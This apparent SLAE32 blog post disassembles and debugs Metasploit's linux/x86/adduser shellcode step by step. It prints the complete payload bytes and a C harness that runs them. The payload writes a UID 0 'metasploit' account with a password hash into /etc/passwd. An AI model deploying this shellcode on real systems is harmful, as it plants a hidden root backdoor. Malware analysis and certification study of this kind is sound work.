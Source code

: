 ```yaml
---
layout: single
title: Shellcode MSF Adduser Analysis
date: 2019-10-07
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
If we search on internet we will find a lot of ready to use shellcodes of various types, somes are for simple command execution, others adds "secret users" in victim machine, others are bind and reverse shell like the shellcodes wrote in this blog. The question is, shall we trust shellcodes found in internet? Following the general rule "Trust no one" the answer should be a big No, but sometime, for example when we have limited time, we prefer or we are forced to use others shellcode.<br>
In this cases what we suggest is to analyze the downloaed shellcode in sandbox machine before use it, to ensure that it will do what it declare.<br>
For this post we want to show how to analyze 3 samples of shellcodes took from msfvenom payload tool.
We can use the msfvenom tool to list payloads that could be produced:
```bash
root@slae32-lab:# msfvenom -l payloads |grep linux/x86
```
![](/assets/images/SLAE32/assignment_5/analysis_0.png)<br>
We have already build (and analyzed) the bind and reverse shellcode types so we choosed this 3 shellcode samples:
- linux/x86/adduser "Create a new user with UID 0"
- linux/x86/chmod "Runs chmod on specified file with specified mode"
- linux/x86/exec "Execute an arbitrary command"

So let's start our analysis

## Adduser
First thing, we must create the payload with msfvenom
```bash
root@slae32-lab:# msfvenom -p linux/x86/adduser -f C -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```
Now we need to analyze it with ndisasm, using the command 
```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```
We can see the assembly code 
![](/assets/images/SLAE32/assignment_5/analysis_1.png)<br>
and we can see also the syscalls involved in this payload.
We have to remember that this shellcode has the scope of insert a user with uid 0 in the system so presumibly it write a new well crafted row in /etc/passwd file.
Now let's look at the assembly and try to indentify the syscalls and other components of the shellcode.<br>
![](/assets/images/SLAE32/assignment_5/analysis_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid.png)<br>
![](/assets/images/SLAE32/assignment_5/open.png)<br>
![](/assets/images/SLAE32/assignment_5/write.png)<br>
![](/assets/images/SLAE32/assignment_5/exit.png)<br>

So we can resume the syscalls involved in this shellcode:
1. setgid
2. open
3. write
4. exit

Now we can put the shellcode inside our executing C code, compile it and debug it with gdb.<br>
```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51
\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63
\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65
\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73
\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a
\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58
\xcd\x80\x6a\x01\x58\xcd\x80";

void main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
### setgid()
The first syscall as said is the ```setgid()``` that want the 0x46 in the EAX register and the gid of the caller as argument, in EBX regsister. In this case the payload set the gid to 0 (root).
![](/assets/images/SLAE32/assignment_5/setgid_0.png)<br>
Now define hook-stop procedure, ```stepi``` to the ```int 0x80``` call and check the first 4 register
<br>
```gdb
Type commands for definition of "hook-stop".
End with a line saying just "end".
>disassemble 
>print/x $eax
>print/x $ebx
>print/x $ecx
>print/x $edx
>end
```
![](/assets/images/SLAE32/assignment_5/setgid_1.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_3.png)<br>

### open()
Let's jump now to the secopnd syscall, ```open()``` that as described by ```man 2 open``` accepts 2 arguments, the pathname of the file to open and the flags that indicates with what permission it must be opened.<br>
![](/assets/images/SLAE32/assignment_5/open_0.png)<br>
So in EAX must bo stored the value of the syscall (0x5), in EBX must be stored the address of the pathname and in ECX in must be stored the permissions 0x401 ```r-x``` and set the gid bit previously setted to 0.<br>
![](/assets/images/SLAE32/assignment_5/open_1.png)<br>
We have to note one things here. There are 3 push dword of the ```open()``` syscall that is the file to open, let's check it.<br>
![](/assets/images/SLAE32/assignment_5/open_2.png)<br>

Copy the value 
```
6873737764
682F2F7061
682F657463 
```
and paste it in a converter<br>
![](/assets/images/SLAE32/assignment_5/analysis_4.png)<br>
Well done, we have find the file path opened by ```open()``` syscall, it's /etc/passwd, obviously in reverse order because we are in little endian and with a double slash to make the number of the letters divisible by 4, so ```dwssap//cte/```.<br>
According with the ``` man 2 open``` it returns a file descriptor, a small, nonnegative integer for use in subsequent system calls (read(2), write(2), lseek(2), fcntl(2), etc.).
So after the ```int 0x80``` the file descriptor is saved in EAX and the payload moves it to EBX usnig an ```xchg``` operation.<br> 

### write()
After the ```xchg``` we can see a call to a well defined address, in general a ```call dword 0x53```, in our case a ```call   0x804a093 <code+83>```. This jump is preparatory for the next syscall ```write()``` in fact if we moving forward to the next ```int 0x80``` and analyze the registers we can see that situation
![](/assets/images/SLAE32/assignment_5/write_0.png)<br>
The EAX contains the value 4 that refer to the ```write()``` syscall, EBX contains the file descriptor value and ECX contains the address memory of the buffer to write in the fd.<br>
![](/assets/images/SLAE32/assignment_5/write_1.png)<br>
What we have to know now is what this syscall will write in the /etc/passwd file. We know that the buffer starts at 0x804a06b, just after the ```call   0x804a093 <code+83>``` instruction.<br>
![](/assets/images/SLAE32/assignment_5/write_2.png)<br>
All the code contained from address 0x804a06b to address 0x804a093 is in actual the text that will be write to /etc/passwd. Analyzing the payload again with ndisasm could help us know what's the text.<br>
![](/assets/images/SLAE32/assignment_5/write_3.png)<br>
Let's copy the values in this range of address<br>
```
6D
657461
7370
6C
6F
69743A417A2F6449
736A
3470
3449
52
633A
303A
303A
3A2F
3A2F
62696E
2F
7368
0A
```
and paste it in a converter<br>
![](/assets/images/SLAE32/assignment_5/write_4.png)<br>
And here we go, the payload will write ```metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh``` in /etc/passwd, that means it adds a new user with uid 0 and gid 0 and /bin/sh enabled.
The payload after wrote this line, exit with code 1.

### Check the results
Let's try the payload and watch the execution
![](/assets/images/SLAE32/assignment_5/write_5.gif)<br>
It worked